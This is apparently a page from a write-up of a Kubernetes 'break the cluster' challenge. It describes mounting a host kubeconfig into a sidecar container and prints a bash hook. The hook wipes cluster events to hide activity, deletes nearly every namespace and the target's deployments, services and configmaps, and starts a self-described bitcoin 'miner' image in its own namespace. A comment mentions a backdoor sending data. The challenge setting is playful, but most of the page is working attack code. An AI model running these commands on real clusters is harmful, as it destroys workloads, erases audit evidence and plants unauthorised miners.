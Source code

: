 here is where our "controller" lived.

the attack vector here is that we mounted the kube config from the host directly into a sidecar container that had `kubectl` inside.

then we just had fun with some bash!

```bash 
function hook() {
    # ----------------------------------------------------------
    # Here is where we can repeat any bash command with a working
    # Kubernetes kubeconfig
    #
    # Keep it secret. Keep it safe.
    #
    # ----

    kubectl delete events --all
    kubectl delete events --all -n kube-system

    # keep our boops but delete their boops
    for ns in $(kubectl get ns -o jsonpath="{.items[*].metadata.name}"); do
      if [ "$ns" = "kube-system" ] || [ "$ns" = "n0va" ] || [ "$ns" = "kube-public" ] || [ "$ns" = "default" ] || [ "$ns" = "kube-node-lease" ] || [ "$ns" = "cilium" ]  || [ "$ns" = "metallb-system" ]  || [ "$ns" = "rook-ceph" ]; then
        continue
      fi
      # Delete all namespaces other than those ^
      kubectl delete namespace $ns
    done

    # we know the workload had "klustered" labels so let's also fuck with those
    kubectl delete po -l app=klustered --all-namespaces
    kubectl delete deploy,ds,svc,sts,cm --all

    # let's have fun in the default namespace
    kubectl run "0-----------------------------------o" --image busybox
    kubectl run "1---------------n0va----------------o" --image busybox
    kubectl run "2-----------------------------------o" --image busybox
    kubectl run "3----kris-n0va-is-a-professional----o" --image busybox
    kubectl run "4----grown-up-business-computer-----o" --image busybox
    kubectl run "5----person-who-does-very-serious---o" --image busybox
    kubectl run "6----computer-boops-for-her-career--o" --image busybox
    kubectl run "7------------n-joy-the--------------o" --image busybox
    kubectl run "8----------klustered-fuck-----------o" --image busybox
    kubectl run "9-----------------------------------o" --image busybox


    # Here is our bitcoin "miner"
    kubectl create namespace n0va
    kubectl run n0va-0 --image krisnova/n0va -n n0va
    kubectl run n0va-1 --image krisnova/n0va -n n0va
    kubectl run n0va-2 --image krisnova/n0va -n n0va
    kubectl run n0va-3 --image krisnova/n0va -n n0va
    kubectl run n0va-4 --image krisnova/n0va -n n0va
    kubectl run n0va-5 --image krisnova/n0va -n n0va
    kubectl run n0va-6 --image krisnova/n0va -n n0va
    kubectl run n0va-7 --image krisnova/n0va -n n0va
    kubectl run n0va-8 --image krisnova/n0va -n n0va
    kubectl run n0va-9 --image krisnova/n0va -n n0va
    # ----
    #
    # ---------------------------------------------------------
    # Ensure the backdoor is always sending to data
    #
```

[nova@emily]: ~/hack/kubernetes-images/infect-api-server>$ k get po
[nova@emily]: ~/hack/kubernetes-images/infect-api-server>$ k get po -n n0va